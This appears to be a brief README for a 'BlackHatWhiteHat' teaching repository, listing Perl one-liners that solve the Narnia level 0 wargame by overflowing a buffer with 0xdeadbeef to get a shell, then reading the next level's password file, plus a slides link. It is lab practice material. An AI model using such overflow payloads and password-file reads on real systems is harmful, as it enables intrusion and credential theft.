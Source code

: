# BlackHatWhiteHat


PERL SCRIPTS AND LINUX COMMANDS:
echo $(perl -e 'print "B"x20 . "C"x4;') | ./narnia0
(echo $(perl -e 'print "B"x20 . "\xef\xbe\xad\xde"x4;') && cat;) | ./narnia0
whoami
echo OWNED
cat /etc/narnia_pass/narnia1

LINK TO SLIDES:
https://docs.google.com/presentation/d/1UbYPy0qtaavjXjbQp1vI1MkvCauogBWby--s2ePPBqA/edit?usp=sharing
